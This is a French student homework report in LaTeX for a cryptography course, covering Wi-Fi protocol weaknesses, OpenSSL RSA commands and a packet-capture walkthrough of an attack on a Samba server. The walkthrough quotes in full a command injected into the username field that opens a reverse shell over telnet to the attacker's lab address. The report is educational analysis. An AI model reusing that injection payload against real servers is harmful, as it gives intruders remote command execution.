\documentclass[11pt]{article}
\usepackage[T1]{fontenc}
\usepackage[utf8]{inputenc}
\usepackage{graphicx}
\usepackage{minitoc}
\usepackage[french]{babel}
\usepackage[right=2.5cm, bottom=2.5cm,top=2.5cm, left=2.5cm]{geometry}
\title{\vspace{\fill} Cryptographie et sécurité \\ ~\textbf{IFT-606} \\~\\ Devoir 1 - Cryptographie et attaques}
\author{Amandine Fouillet - 14 130 638 ~\\ Frank Chassing - 14 153 710}
\date{\today \vspace{\fill}}

\begin{document}
\maketitle
\newpage \thispagestyle{empty}
\null
\newpage
\tableofcontents

\newpage
\section{Wi-Fi}
\subsection{Fonctionnement des trois algorithmes de chiffrement, points faibles et attaques possibles}
Le WEP (Wired Equivalent Privacy), le WPA (Wi-fi Protected Access), et le WPA2 sont des protocoles de sécurité destinés à sécuriser les réseaux sans fils. Nous allons détailler le fonctionnement de ses protocoles ainsi que leurs vulnérabilités.
\subsubsection{Le protocole WEP}
Le protocole WEP repose sur l’algorithme à clé symétrique RC4. La longueur de la clé WEP est de 40 ou 104 bits. Elle est par la suite concaténée avec un vecteur d’initialisation qui est composé d’une séquence de 24 bits générée aléatoirement (pour ne pas risquer d’utiliser deux fois la même clé). Ce vecteur est connu de l’émetteur et du récepteur, et apparait en clair dans les trames. Nous obtenons donc au final une clé de 64 ou 128 bits. Cette clé est ensuite couplé au message à transmettre par un XOR (OU exclusif), ce qui donne le message chiffré.
Le problème du protocole WEP réside dans le fait que seul le vecteur d’initialisation change, la clé de la box ne change pas et reste fixe. Ce vecteur étant de petite taille (24bits), il y a eu de nombreuses attaques qui ont utilisé cette faille, et ce protocole n’est plus utilisé sur les équipements Wi-fi aujourd’hui. En effet, il est assez rapide de couvrir toutes les possibilités et de casser la clé.

De plus ils existent d’autres failles principales sur ce protocole :
\begin{itemize}
\item 	Les algorithmes de vérification d’intégrité et d’authentification sont très facilement contournables.
\item 	Les clés courtes 40 bits ou 104 bits sont  trop simples et peuvent être sujet à des attaques par dictionnaire.
\end{itemize}

On peut également nommer les différentes attaques existantes sur ce protocole :

\begin{itemize}
\item 	Attaque par clé apparentée
\item 	Attaque FMS
\item 	Attaque par fragmentation
\item 	Attaque par dictionnaire
\item 	Attaque par force brute
\end{itemize}

\subsubsection{Le protocole WPA}
Le WPA a été créé suite aux faiblesses du protocole WEP. Il est basé sur le protocole TKIP (Temporal Key Integrity Protocol). A la différence du protocole WEP, le WPA chiffre par une fonction XOR chaque message à transmettre avec une clé qui est modifiée à chaque période de temps. Le message étant alors chiffré, il est par la suite concaténé avec un vecteur d’initialisation qui est haché et n’apparait donc pas en clair dans les trames.
Le WPA était utilisé à court terme pour remplacer le WEP et s’adapter au firmware des cartes Wi-fi de l’époque, basé sur RC4. Très vite, il a été remplacé par la norme complète WPA2 qui est beaucoup plus sûr.
Une faiblesse au niveau du protocole TKIP a été découverte par des chercheurs Eric Tews et Martin Beck.  En effet, le protocole TKIP ajoute une couche d’intégrité par le biais d’un MIC (Message Integrity Code) s’appuyant sur un checksum chiffré. La technique d’attaque est de capturer un paquet, de modifier son checksum puis d’analyser la réponse du point d’accès lorsqu’il reçoit le paquet. Cette technique est efficace avec les paquets ARP car le contenu de ceux-ci est connu, à part les deux octets de l’adresse IP. Il suffit donc de trouver ces deux octets en envoyant deux paquets toutes les soixante secondes, ce qui prend une quinzaine de minutes pour couvrir toutes les possibilités.
On peut également nommer les différentes attaques existantes sur ce protocole :

\begin{itemize}
\item 	Attaque Beck \& Tews
\item 	Attaque par force brute
\end{itemize}

\subsubsection{Le protocole WPA2}
Le WPA2 est basé sur l’algorithme AES (Advanced Encryption Standard). Cet algorithme de chiffrement symétrique prend en entrée un message de 128 bits. Il possède également une clé de 128, 192 ou 256 bits. Chaque octet de données est stocké dans une matrice de taille 4x4. Ensuite plusieurs opérations sont effectuées sur cette matrice. Ces opérations sont effectuées un certain nombre de fois en fonction de la taille de la clé (128 bits : 10 tours, 192 bits : 12 tours, 256 bits : 14 tours).

\begin{itemize}
\item 	Une substitution par octet non linéaire où chaque octet est remplacé par un autre octet choisi dans une table particulière (Boite-S). Cette opération garantit le côté résistant de l’algorithme.
\item 	Un décalage par ligne consistant en une étape de transposition où chaque élément de la matrice est décalé à gauche d’un certain nombre de colonnes.
\item 	Un mélange par colonne qui effectue un produit matriciel en opérant sur chaque colonne de la matrice.
\item  Un ajout de la clé de tour qui consiste à faire un OU exclusif entre les 128 bits de la matrice et les 128 bits de la clé de tour. La clé de tour est calculée à partir de la clé de chiffrement. Cette clé de chiffrement est stockée dans un tableau de 4 lignes et 4, 6 ou 8 en fonction de la taille de la clé, et est ensuite étendue dans un tableau W ayant 4 lignes et (4*nombre de tours+1) colonnes. La clé de tour est donné par les 4 colonnes 4*i, 4*i+1, 4*i+2, 4*i+3 du tableau W, avec 0<i<nombre de tours.
\end{itemize}

En ce qui concerne les vulnérabilités du WPA2, l’algorithme AES n’a pas encore été cassé à part par le biais de la force brute.
Certaines attaques existent sur des versions simplifiées d’AES, sur des versions où le nombre de tours est moins important.
Des attaques ont également vu le jour sur la version complète de l’algorithme d’AES mais ces attaques ne font que réduire sensiblement le nombre d’opérations à effectuer par rapport à la méthode de la force brute (2\^{126} opérations contre 2\^{128} opérations pour une attaque par force brute).
Il existe une vulnérabilité de ce protocole nommé « hole 196 » permettant d’intercepter et décrypter des communications sur le réseau, les voler ou bien s’introduire sur une machine et l’infecter. Cependant, la portée de cette faille est extrêmement limitée puisqu’il faut en pratique être un utilisateur déjà enregistré sur le réseau.

On peut recenser les différentes attaques existantes sur ce protocole :

\begin{itemize}
\item 	Attaque par force brute
\end{itemize}


\subsection{Aircrack-ng}
\newpage
\section{Chiffrement et signature}
\subsection{Génération d'une paire de clé RSA}
Pour générer une paire de clé RSA d'une taille de 2048 bits protégée par un mot de passe, on exécute la commande suivante : \textit{genrsa -out cle.pem -des 2048} (\ref{fig:gen}). Le fichier généré cle.pem (\textsc{Figure \ref{fig:cle}}) contient maintenant la paire de clé RSA d'une taille de 2048.
\begin{figure}[hbtp]
    \begin{minipage}[b]{0.4\linewidth}
        \centering 
\includegraphics[scale=0.4]{Capture/question1.png}
        \caption{Génération de la paire}
                \label{fig:gen}
\label{fig:base}
    \end{minipage}\hfill
    \begin{minipage}[b]{0.48\linewidth}
        \centering 
\includegraphics[scale=0.4]{Capture/question1b.png}
        \caption{Fichier obtenu}
         \label{fig:cle}
    \end{minipage}
\end{figure}

\subsection{Création d'un fichier contenant la partie publique de la clé RSA}
Pour créer un fichier contenant seulement la partie publique de la clé RSA on exécute la commande suivante : \textit{rsa -in cle.pem -pubout -out clePublique.pem} (\textsc{Figure \ref{fig:cde1}}). Le fichier généré clePublique.pem (\textsc{Figure \ref{fig:clepu}}) contient maintenant la clé publique.
\begin{figure}[hbtp]
    \begin{minipage}[b]{0.4\linewidth}
        \centering 
\includegraphics[scale=0.4]{Capture/question2.png}
        \caption{Exécution de la commande}
                \label{fig:cde1}
\label{fig:base}
    \end{minipage}\hfill
    \begin{minipage}[b]{0.48\linewidth}
        \centering 
\includegraphics[scale=0.4]{Capture/question2b.png}
        \caption{Clé publique}
         \label{fig:clepu}
    \end{minipage}
\end{figure}

\subsection{Chiffrement de la partie privée générée}
Pour chiffrer la partie privée générée, on exécute la commande suivante : \textit{rsa -in cle.pem -des3 -out cle.pem}  (\textsc{Figure \ref{fig:cde2}}). Quand on réouvre le fichier cle.pem on remarque que le chiffrement a changé pour un chiffrement avec l'algorithme des3 (\textsc{Figure \ref{fig:clep}}).

\begin{figure}[hbtp]
    \begin{minipage}[b]{0.4\linewidth}
        \centering 
\includegraphics[scale=0.4]{Capture/question3.png}
        \caption{Exécution de la commande}
                \label{fig:cde2}
\label{fig:base}
    \end{minipage}\hfill
    \begin{minipage}[b]{0.48\linewidth}
        \centering 
\includegraphics[scale=0.4]{Capture/question3b.png}
        \caption{Fichier cle.pem}
         \label{fig:clep}
    \end{minipage}
\end{figure}

\subsection{Chiffrement d'un message}
Nous allons maintenant chiffrer le fichier message.txt (\textsc{Figure \ref{fig:message}}) qui contient le message "OpenSSL is really cool!!!". Pour se faire, nous exécutons la commande suivante : \textit{rsautl -encrypt -in message.txt -inkey cle.pem -out messageC.txt} (\textsc{Figure \ref{fig:cde3}}). Le fichier messageC.txt contient le message crypté (\textsc{Figure \ref{fig:crypt}}).
\begin{figure}[hbtp]
    \begin{minipage}[b]{0.4\linewidth}
        \centering 
\includegraphics[scale=0.4]{Capture/question4.png}
        \caption{Fichier message.txt}
                \label{fig:message}
\label{fig:base}
    \end{minipage}\hfill
    \begin{minipage}[b]{0.48\linewidth}
        \centering 
\includegraphics[scale=0.4]{Capture/question4b.png}
        \caption{Exécution de la commande}
         \label{fig:cde3}
    \end{minipage}
\end{figure}

\begin{figure}[hbtp]
        \centering 
\includegraphics[scale=0.4]{Capture/question4c.png}
        \caption{Fichier messageC.txt}
         \label{fig:crypt}
\end{figure}

\subsection{Déchiffrement d'un message}
Pour déchiffrer le message du fichier messageC.txt, on exécute la commande suivante : \textit{rsautl -decrypt -in messageC.txt -inkey cle.pem -out messageD.txt} (\textsc{Figure \ref{fig:cde4}}). On obtient le fichier messageD.txt qui contient le message décrypté (\textsc{Figure \ref{fig:decrypt}}) qui correspond bien au message initial.

\begin{figure}[hbtp]
    \begin{minipage}[b]{0.4\linewidth}
        \centering 
\includegraphics[scale=0.4]{Capture/question5.png}
        \caption{Exécution de la commande}
                \label{fig:cde4}
\label{fig:base}
    \end{minipage}\hfill
    \begin{minipage}[b]{0.48\linewidth}
        \centering 
\includegraphics[scale=0.4]{Capture/question5b.png}
        \caption{Fichier messageD.txt}
         \label{fig:decrypt}
    \end{minipage}
\end{figure}
\newpage
\subsection{Signature du fichier}
Pour signer le fichier, on exécute la commande suivante : \textit{rsautl -sign -inkey cle.pem -in messageD.txt -out fic.sig} (\textsc{Figure \ref{fig:cde5}}). La  \textsc{Figure \ref{fig:signature}} montre le fichier fic.sig obtenu.
\begin{figure}[hbtp]
    \begin{minipage}[b]{0.4\linewidth}
        \centering 
\includegraphics[scale=0.4]{Capture/question6.png}
        \caption{Exécution de la commande}
                \label{fig:cde5}
\label{fig:base}
    \end{minipage}\hfill
    \begin{minipage}[b]{0.48\linewidth}
        \centering 
\includegraphics[scale=0.4]{Capture/question6b.png}
        \caption{Fichier fic.sig}
         \label{fig:signature}
    \end{minipage}
\end{figure}

Pour vérifier la signature, on exécute la commande suivante : \textit{rsautl -verify -pubin -inkey clePublique.pem -in fic.sig} (\textsc{Figure \ref{fig:verification}}). On obtient le résultat attendu. 
    \begin{figure}[h!]
        \centering 
\includegraphics[scale=0.4]{Capture/question6c.png}
        \caption{Vérification de la signature}
         \label{fig:verification}
\end{figure}
\newpage
\section{Attaque décortiquée}

  \begin{figure}[h!]
        \centering 
\includegraphics[scale=1]{Exo3/1.png}
        \caption{}
         \label{fig:1}
\end{figure}
Après s’être présenté sur le serveur, le hacker d’IP 10.0.2.4 demande au routeur cadmusCo l’adresse mac du serveur d’adresse IP 10.0.2.8. (\textsc{Figure \ref{fig:1}})

\vspace{1cm}
 \begin{figure}[h!]
        \centering 
\includegraphics[scale=1]{Exo3/2.png}
        \caption{}
         \label{fig:2}
\end{figure}
Ensuite il reçoit une réponse du routeur et obtient l’adresse mac  08:00:27:25:6a:fa du serveur.  (\textsc{Figure \ref{fig:2}})

\vspace{1cm}
 \begin{figure}[h!]
        \centering 
\includegraphics[scale=1]{Exo3/3.png}
        \caption{}
         \label{fig:3}
\end{figure}

Le hacker établit par la suite une connexion TCP avec le serveur. On le remarque par les flags [SYN], [SYN, ACK] et [ACK]. (\textsc{Figure \ref{fig:3}})
\vspace{2cm}
 \begin{figure}[h!]
        \centering 
\includegraphics[scale=1]{Exo3/4.png}
        \caption{}
         \label{fig:4}
\end{figure}

Le hacker fait alors une demande de protocole samba au serveur. (\textsc{Figure \ref{fig:4}})
\vspace{2cm}
 \begin{figure}[h!]
        \centering 
\includegraphics[scale=1]{Exo3/5.png}
        \caption{}
         \label{fig:5}
\end{figure}

Ce protocole est un protocole d’identification du nom de NT Lan Manager. (\textsc{Figure \ref{fig:5}})
\vspace{2cm}
 \begin{figure}[h!]
        \centering 
\includegraphics[scale=1]{Exo3/6.png}
        \caption{}
         \label{fig:6}
\end{figure}

Le hacker reçoit une réponse positive de la part du serveur et peut ensuite tenter de s’identifier sur le serveur.  (\textsc{Figure \ref{fig:6}})
\vspace{2cm}
 \begin{figure}[h!]
        \centering 
\includegraphics[scale=1]{Exo3/7.png}
        \caption{}
         \label{fig:7}
\end{figure}

Pour se connecter il rentre une ligne de commande particulière à la place du champ « user ».  (\textsc{Figure \ref{fig:7}})
Cette ligne est /=`nohup sh -c '(sleep 4428|telnet 10.0.2.4 5002|while : ; do sh \&\& break; done 2>\&1|telnet 10.0.2.4 5002 >/dev/null 2>\&1 \&)'`
Elle permet de lancer un processus qui restera actif même après la déconnexion de l’utilisateur. Ce processus émule un Shell à distance, c’est-à-dire qu’il demande au serveur linux d’ouvrir un Shell sur la machine du hacker. Ceci a pour but de pouvoir exécuter des commandes saisies au clavier sur une machine distante. De plus, le hacker redirige toutes les sorties (Out, Erreurs) vers /dev/null.
\vspace{2cm}
 \begin{figure}[h!]
        \centering 
\includegraphics[scale=0.8]{Exo3/8.png}
        \caption{}
         \label{fig:8}
\end{figure}

Par la suite la machine se rend compte que le login rentré n’est pas bon et envoie donc une erreur d’identification. Cependant, il est trop tard car le hacker peut déjà exécuter des commandes sur le serveur par le biais du Shell qu’il a ouvert. (\textsc{Figure \ref{fig:8}})

 \begin{figure}[h!]
        \centering 
\includegraphics[scale=1]{Exo3/9.png}
        \caption{}
         \label{fig:9}
\end{figure}

 \begin{figure}[h!]
        \centering 
\includegraphics[scale=1]{Exo3/10.png}
        \caption{}
         \label{fig:10}
\end{figure}

Ensuite le hacker exécute des commandes sur le terminal du serveur comme « echo t fulx627y7JxvLor; ». (\textsc{Figure \ref{fig:10}}) Le flag PSH indique le serveur doit absolument délivrer les données envoyées. (\textsc{Figure \ref{fig:9}})

 \begin{figure}[h!]
        \centering 
\includegraphics[scale=1]{Exo3/11.png}
        \caption{}
         \label{fig:11}
\end{figure}

On peut voir ensuite que l’ordinateur du hacker se déconnecte du serveur car il a rentré un mauvais login lors de la tentative de connexion. On peut observer cette déconnexion par le flag [RST] qui indique une annulation de connexion. (\textsc{Figure \ref{fig:11}})

Le hacker va alors s’adresser au serveur DHCP. Ce serveur DHCP va permettre de fournir une adresse IP au hacker arrivant sur le réseau et désirant communiquer et échanger avec lui.

\begin{figure}[h!]
        \centering 
\includegraphics[scale=0.9]{Exo3/12.png}
        \caption{}
         \label{fig:12}
\end{figure}

Il y a donc plusieurs trames qui sont envoyées. Le hacker va faire une requête auprès du serveur DHCP (\textsc{Figure \ref{fig:12}}).

\begin{figure}[h!]
        \centering 
\includegraphics[scale=0.9]{Exo3/13.png}
        \caption{}
         \label{fig:13}
\end{figure}

Puis le serveur va émettre un paquet spécial de broadcast sur le réseau local 255.255.255.255  (\textsc{Figure \ref{fig:13}}).

\begin{figure}[h!]
        \centering 
\includegraphics[scale=0.9]{Exo3/14.png}
        \caption{}
         \label{fig:14}
\end{figure}

Ensuite le hacker envoie une trame avec l’adresse 0.0.0.0 (car il n’a pas encore d’adresse IP) vers l’adresse de broadcast (DHCP Discover) pour demander une adresse IP  (\textsc{Figure \ref{fig:14}}).

\begin{figure}[h!]
        \centering 
\includegraphics[scale=0.9]{Exo3/15.png}
        \caption{}
         \label{fig:15}
\end{figure}

En réponse à cette requête, le serveur DHCP va émettre une réponse proposant au hacker une adresse IP, le but étant de rendre le hacker apte à communiquer sur le réseau via cette adresse IP (\textsc{Figure \ref{fig:15}}).

\begin{figure}[h!]
        \centering 
\includegraphics[scale=0.9]{Exo3/16.png}
        \caption{}
        \label{fig:16}
\end{figure}

Le hacker va alors sélectionner une des offres reçues et en informer le serveur DHCP. Le hacker demande au serveur la validation de cette adresse IP pour qu’il soit informé qu’elle n’est plus libre (\textsc{Figure \ref{fig:16}}).
\vspace{2cm}
\begin{figure}[h!]
        \centering 
\includegraphics[scale=0.9]{Exo3/17.png}
        \caption{}
         \label{fig:17}
\end{figure}

Le serveur va confirmer la validation de l’adresse IP (\textsc{Figure \ref{fig:17}}).

\begin{figure}[h!]
        \centering 
\includegraphics[scale=0.9]{Exo3/18.png}
        \caption{}
         \label{fig:18}
\end{figure}

Pour des raisons d’optimisation des ressources réseau, les adresses IP sont délivrées avec une date de début et une date de fin de validité. C’est ce qu’on appelle un « bail ». Ici, le hacker voit son bail arriver à terme et demande alors au serveur de prolonger celui-ci par un DHCP Request (\textsc{Figure \ref{fig:17}}).

\begin{figure}[h!]
        \centering 
\includegraphics[scale=0.9]{Exo3/19.png}
        \caption{}
         \label{fig:19}
\end{figure}

\begin{figure}[h!]
        \centering 
\includegraphics[scale=0.9]{Exo3/20.png}
        \caption{}
         \label{fig:20}
\end{figure}

Puis le hacker exécute la commande « echo god is good » 


\newpage
\listoffigures
\end{document}